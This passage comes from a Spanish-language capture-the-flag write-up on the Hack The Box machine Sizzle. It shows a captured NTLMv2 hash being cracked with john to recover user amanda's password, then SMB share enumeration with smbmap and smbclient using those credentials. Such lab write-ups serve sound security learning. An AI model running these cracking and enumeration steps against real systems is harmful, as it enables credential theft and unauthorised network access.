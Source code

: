 ```bash
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:compartido)
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:compartido)
[*] Closing down connection (10.10.10.103,64593)
[*] Remaining connections []
```

### Cracking Amanda Password

Si esperamos un rato recibimos el hash del usuario amanda. Vamos a intentar romperlo con la herramienta john.

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Ashare1972       (amanda)
1g 0:00:00:04 DONE (2023-03-12 10:37) 0.2114g/s 2413Kp/s 2413Kc/s 2413KC/s Ashiah08..Ariel!
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```

Si intentamos conectarnos por Win-RM no vamos a poder. Debido a que es por SSL y nos hacen falta el par de claves del usuario, las cuales no tenemos.

Vamos a ver si podemos acceder a nuevos recursos compartidos.

```bash
❯ smbmap -H 10.10.10.103 -u 'amanda' -p 'Ashare1972'
[+] IP: 10.10.10.103:445        Name: 10.10.10.103                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        CertEnroll                                              READ ONLY       Active Directory Certificate Services share
        Department Shares                                       READ ONLY
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        Operations                                              NO ACCESS
        SYSVOL                                                  READ ONLY       Logon server share 
```

Podemos acceder a la gran mayoría de recursos, vamos a mirar "CertEnroll".

```bash
❯ smbclient '\\10.10.10.103\CertEnroll' -U amanda
Enter WORKGROUP\amanda's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Mar 12 09:58:44 2023
  ..                                  D        0  Sun Mar 12 09:58:44 2023
  HTB-SIZZLE-CA+.crl                  A      721  Sun Mar 12 09:58:44 2023
  HTB-SIZZLE-CA.crl                   A      909  Sun Mar 12 09:58:44 2023
  nsrev_HTB-SIZZLE-CA.asp             A      322  Mon Jul  2 22:36:05 2018
  sizzle.HTB.LOCAL_HTB-SIZZLE-CA.crt      A      871  Mon Jul  2 22:36:03 2018

                7779839 blocks of size 4096. 3375739 blocks available
```

